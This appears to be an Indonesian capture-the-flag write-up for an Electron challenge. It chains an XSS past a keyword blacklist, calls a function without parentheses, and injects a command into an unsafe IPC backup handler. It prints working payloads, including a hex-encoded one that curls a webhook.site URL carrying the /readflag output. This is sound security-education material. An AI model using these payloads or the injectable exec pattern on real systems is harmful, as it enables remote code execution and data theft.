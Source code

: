 # Not So Planned

1. XSS in the app  
    Pada aplikasi, cara developer memasukkan description tidaklah aman, sehingga terdapat kerentanan XSS di dalam aplikasi. Namun terdapat sanitasi yang cukup ketat (sepertinya) pada data ``description``
    sanitasi yang digunakan:
    ```js
    const unnecessaryChar = "abbr acronym address applet area article aside audio base bdi bdo big blink blockquote br button canvas caption center cite code col colgroup command content data datalist dd del details dfn dialog dir div dl dt element em embed fieldset figcaption figure font footer form frame frameset head header hgroup hr html iframe image input kbd keygen label legend li link listing location main map mark marquee menu menuitem meta meter multicol nav nextid nobr noembed noframes noscript object optgroup output param picture plaintext pre progress samp script section select shadow slot small source spacer span strike strong sub . summary sup svg table tbody td template textarea tfoot th thead time tr track tt ul var video replace eval ( ) `".split(" ")
    ```
    dan cukup beruntung bahwa ternyata <img> tidak diblacklist
    ```js
    const escapeRegExp = s => s.replace(/[.*+?^${}()|[\]\\]/g, '\\$&');
    for (const c of unnecessaryChar) {
        const pattern = new RegExp(escapeRegExp(c), 'gi');
        description = description.replace(pattern, '');
    }
    ```

Namun kita tetap bisa melakukan pemanggilan fungsi javascript tanpa parantheses dengan format berikut:
```js
args instanceof { [Symbol['hasInstance']]: Object['functionName'] }
```

2. Web prefference settings
    - Node integration: ``False``
    - Context Isolation: ``true``
    artinya kita tidak bisa melakukan pemanggilan nodeJS secara langsung pada browser context meskipun terdapat XSS

3. RCE via Unsafe IPC Handler in main process
    Ada 3 IPC handler di main.ts:
    ```js
    planCached.then(planCache => {
        ipcMain.handle('set-cached-plans', (_, plan: PlanInterface) =>{
            planCache.setCachedPlan(plan);
            mainWindow.webContents.send('plan-updated');
        });
        ipcMain.handle('get-cached-plans', _ => {
            return planCache.getCachedPlans();
        });
        ipcMain.handle('backup-cached-plans', (_, name: string) => {
            return planCache.backupCachedPlan(name);
        });
    });
    ```

    implementasi backupCachedPlan terdapat kerentanan command injection yakni pada PlanCached.ts:
    ```js
    backupCachedPlan(name: string){
        let command = '';
        switch (process.platform){
            case 'win32':
                command=`powershell -Command "Compress-Archive -Path ${this.path} -DestinationPath ${name}.zip"`;
                exec(command);
                break;
            case 'darwin':
                command=`zip -r ${this.path} ${name}.zip`;
                exec(command);
                break;
            case 'linux':
                command=`zip ${name}.zip ${this.path}`;
                exec(command);
                break;
            default:
                break;
        }
    }
    ```
    Sehingga memungkikan kita untuk menyusupi payload didalamnya dengan pemanggilan window.api.backupCachedPlan, namun karena . diblacklist, kita bisa ganti dengan menggunakan [] (``window['api']['backupCachedPlan']``) dan pemanggilan argumen menggunakan teknik sebelumnya.

    kita bisa escape hanya dengan menggunakan:
    ```sh
    gedagedi; curl http://webhook/?c=$(./readflag)
    ```

    Sehingga payload akhir yang bisa digunakan untuk mendapatkan flag adalah:
    ```js
    <img src=x onerror="'\x62\x61\x64\x2e\x7a\x69\x70\x20\x61\x3b\x20\x63\x75\x72\x6c\x20\x68\x74\x74\x70\x73\x3a\x2f\x2f\x77\x65\x62\x68\x6f\x6f\x6b\x2e\x73\x69\x74\x65\x2f\x32\x65\x35\x62\x30\x33\x62\x66\x2d\x37\x38\x62\x62\x2d\x34\x33\x35\x34\x2d\x39\x66\x66\x38\x2d\x36\x65\x66\x37\x61\x33\x30\x62\x30\x32\x37\x62\x3f\x63\x3d\x24\x28\x2f\x72\x65\x61\x64\x66\x6c\x61\x67\x29\x20\x23' instanceof { [Symbol['hasInstance']]: window['api']['backupCachedPlan'] }">
    ```

# Ref
- [Invoke JS function without Parantheses](https://stackoverflow.com/questions/35949554/invoking-a-function-without-parentheses)
